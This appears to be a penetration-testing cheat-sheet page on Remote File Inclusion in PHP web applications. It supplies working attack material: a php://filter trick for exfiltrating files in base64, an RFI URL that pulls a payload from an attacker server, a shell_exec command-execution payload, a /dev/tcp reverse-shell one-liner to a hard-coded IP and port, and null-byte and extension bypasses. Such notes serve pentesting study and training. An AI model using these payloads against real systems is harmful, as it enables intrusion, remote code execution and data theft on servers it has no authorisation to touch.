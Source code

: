 ```yaml
---
description: >-
  A remote file inclusion vulnerability allows an attacker to remotely execute a
  script on the victim even if it is not available locally.
---
```


# Remote File Inclusion (RFI)

### Examples

#### Testing for RFI

Quick test for RFI with a PHP file, name this test.php and host using a Python server:

```
<?php
echo "Hello";
?>
```

If we see the tags then we do not have remote code execution, however, if it says "Hello" then we have code execution.&#x20;

#### Basic Exploitation

If we want to get a file then it is best to base64 encode it. This will ensure that we can exfiltrate files rather than have Apache read the file. This can be accomplished with the following command:

`php://filter/convert.base64-encode/resource=[FILE]`

If RFI doesn't work due to the HTTP wrapper being disabled then we can also try the following wrappers:

`ftp://10.10.10.1/AnyFile`

`expect://ls`

#### Obtaining a Shell

The simplest way to obtain a shell is to make a callback to the attacker server:

`http://acme.com/index.php?page=http://attackerserver.com/evil.txt`\
\
This vulnerability can be easily exploited by either using a PHP shell available from `/usr/share/webshells/php`&#x20;

Alternatively, the following commands can be input to a .txt file to obtain code execution:

`<?php echo shell_exec("whoami");?>`

`<?php echo system("0<&196;exec 196<>/dev/tcp/10.11.0.191/443; sh <&196 >&196 2>&196"); ?>`

### Notes

As stated briefly in the [LFI section](local-file-inclusion-lfi.md#additional-notes)

It is important in some situations to add a nullbyte `%00` to avoid appending `.php` or another extension like `.config`

If this does not work you can also add a `?`, to ensure that the rest will be interpreted as URL parameters.

A dirty way of bypassing this is also to name your file with the extension, e.g., `evil.txt.php`
